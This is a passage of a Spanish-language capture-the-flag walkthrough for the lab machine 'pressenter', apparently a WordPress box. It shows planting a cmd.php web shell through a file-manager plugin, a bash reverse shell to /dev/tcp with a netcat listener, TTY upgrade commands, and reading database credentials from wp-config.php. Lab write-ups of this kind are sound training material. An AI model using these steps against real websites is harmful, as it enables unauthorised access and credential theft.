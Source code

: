 **wordpress**

Ahora iremos a `plugins > añadir nuevo plugin` y agregaremos uno llamado `file-manager`, a mi me gusta este en específico pero pueden usar el que quieran:

![manager](../../../maquina-pressenter/imagenes/manager.png)

luego lo activamos y vemos que ahora hay una nueva pestaña, entramos y vamos a `/wp-content/uploads/2024` y creamos un archivo llamado "cmd.php" o lo que queramos y dentro ponemos lo siguiente:

![cmd](../../../maquina-pressenter/imagenes/cmd.png)

guardamos y entramos a `http://pressenter.hl/wp-content/uploads/2024/cmd.php`. Estando en el archivo ponemos un signo de interrogación con el parametro cmd y el comando que queramos, seria algo así:

```css
http://pressenter.hl/wp-content/uploads/2024/cmd.php?cmd=ls
```

En nuestro caso necesitamos una reverse shell, por lo que de comando pondremos lo siguiente:

```css
bash -c 'bash >%26 /dev/tcp/<IP>/<PORT> 0>%261'
```

pero antes de enviarlo escucharemos con el netcat, en el puerto que queramos (en mi caso el 443):

```css
nc -nlvp 443
```

y ahora si enviamos la reverse shell.

## ESCALADA DE PRIVILEGIOS

Antes de poder continuar y ejecutar algo, primero tendremos que hacer un tratamiento de la tty, para hacerlo debemos ejecutar esta "serie" de comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm", y enter
export TERM=xterm
export SHELL=bash
stty rows 33 columns 128
```

Ahora si, ya estaremos dentro de manera comoda.

#### www-data

Ahora tenemos acceso al sistema, pero somos "www-data", por lo que tendremos que buscar una manera de escalar al usuario "enter". Luego de buscar un rato, se me ocurre ver la base de datos mysql, pero como tiene una contraseña, podemos intentar leer el archivo "wp-config.php" donde está instalado el wordpress y veremos una linea en la que esta el usuario y contraseña:

```css
/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );
```
